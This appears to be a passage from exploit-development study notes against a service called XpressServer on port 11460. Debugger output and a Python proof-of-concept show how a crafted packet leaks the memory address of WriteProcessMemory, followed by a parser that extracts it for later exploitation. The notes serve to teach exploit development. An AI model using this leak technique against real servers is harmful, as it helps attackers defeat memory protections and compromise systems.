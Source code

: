 ```shell
eip=00575d2d esp=0db5e324 ebp=0dbbfe98
0:077> da poi(esp)
00ede3a8 "XpressServer: SymbolOperation..."    # Header
00ede3c8 "------------------------------..."   # Separator
00ede3e8 "Value of [WriteProcessMemory] is"    # Target function
00ede408 ": ..Address is: 0x75342890 .Flag"    # Resolved address
00ede428 "s are: 0x207 .Size is : 0x20 ."     # Additional info
```

the string with the address of `WriteProcessMemory` is supplied as an argument to `FXCLI_IF_Buffer_Send`.

we can modify the PoC even more so it receives data after sending a request packet.

```python
def main():
    if len(sys.argv) != 2:
        print("Usage: %s <ip_address>\n" % (sys.argv[0]))
        sys.exit(1)
    
    server = sys.argv[1]
    port = 11460
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(buf)
    response = s.recv(1024)    # Added response handling
    print(response)
    s.close()
```

```bash
kali@kali:~$ python3 poc.py 192.168.120.10
b'\x00\x00\x00\x9eXpressServer: SymbolOperation \n-------------------------------
\nValue of [WriteProcessMemory] is: \n\nAddress i s : 0x75342890 \nFlags are: 0x207
\nSize is : 0x20 \n'
[+] Packet sent
```

we can now receive the output from `FXCLI_DebugDispatch`, which includes the address of `WriteProcessMemory`. ;)

we can refine the PoC even further, by filtering the data so it only prints the address.

```python
def parseResponse(response):
    """Parse a server response and extract the leaked address"""
    pattern = b"Address is:"
    address = None
    
    for line in response.split(b"\n"):
        if line.find(pattern) != -1:
            address = int((line.split(pattern)[-1].strip()), 16)
    
    if not address:
        print("[-] Could not find the address in the Response")
        sys.exit()
    
    return address
```
